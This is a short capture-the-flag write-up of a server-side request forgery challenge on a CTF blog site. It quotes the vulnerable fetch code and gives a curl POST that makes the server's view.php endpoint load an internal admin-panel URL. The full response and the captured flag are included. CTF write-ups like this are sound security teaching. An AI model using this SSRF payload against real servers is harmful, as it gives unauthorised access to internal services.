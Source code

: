 The vulnerable part of the code is this code snippet
'''
  
    <script>
        const API_PATH = '/api/view.php';

        async function fetchPost(id) {
            const fetchResult = await fetch(API_PATH, {
                method: 'POST',
                cache: 'no-cache',
                headers: {
                    'Content-type': 'application/json'
                },
                body: JSON.stringify({ post: `file:///posts/${id}` })
            });
'''
The api endpoint code loads any url submitted to it and it makes it susceptible to Server side request forgery which occurs when a website is induced to load a particular url.
The main task in the challenge is to load a url that can't be accessed outside.With the vulnerable part of site,I used curl to solve it by submitting the url that can't be accessed outside except eithin the server.
'''
#THE CURL request
curl https://ecorpblog.uctf.ir/api/view.php -v -X POST --header 'Content-Type:application/json' -d '{"post": "http://admin-panel.local/"}'
'''
'''
####RESPONSE#####
* Using Stream ID: 1
> POST /api/view.php HTTP/2
> Host: ecorpblog.uctf.ir
> User-Agent: curl/8.2.1
> Accept: */*
> Content-Type:application/json
> Content-Length: 37
>
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* TLSv1.3 (IN), TLS handshake, Newsession Ticket (4):
* old SSL session ID is stale, removing
< HTTP/2 200
< date: Sun, 03 Sep 2023 13:33:41 GMT
< content-type: application/json
< content-length: 50
< vary: Accept-Encoding
< x-powered-by: PHP/7.2.34
< x-xss-protection: 1; mode=block
< server: ArvanCloud
< x-sid: 4101
< server-timing: total;dur=98
< x-request-id: b72a53f22b5cf18d0b1bb14a5cf75106
< accept-ranges: bytes
<
* Connection #1 to host ecorpblog.uctf.ir left intact
{"status":"success","post":"uctf{4z174_1n_urm14}"}
'''

